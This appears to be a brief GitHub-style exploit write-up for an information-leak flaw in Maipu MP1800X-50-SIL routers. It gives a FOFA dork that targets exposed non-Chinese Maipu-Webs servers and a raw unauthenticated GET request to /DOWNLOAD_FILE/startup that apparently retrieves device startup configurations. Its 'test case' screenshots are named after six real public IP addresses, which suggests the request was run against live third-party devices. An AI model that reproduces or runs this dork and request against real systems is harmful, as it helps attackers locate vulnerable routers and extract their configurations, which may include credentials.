 # Maipu-MP1800X-50-SIL
敏感信息泄露漏洞 Sensitive Information Leak


## FOFA Dork
```
server=="Maipu-Webs" && country!="CN"
```


## Request
```
GET /DOWNLOAD_FILE/startup HTTP/1.0
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.57 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```



## Test Case
![1](./103.3.41.57.png)
![2](./125.17.233.222.png)
![3](./182.78.169.252.png)
![4](./203.145.169.65.png)
![5](./122.185.70.177.png)
![6](./182.76.59.129.png)


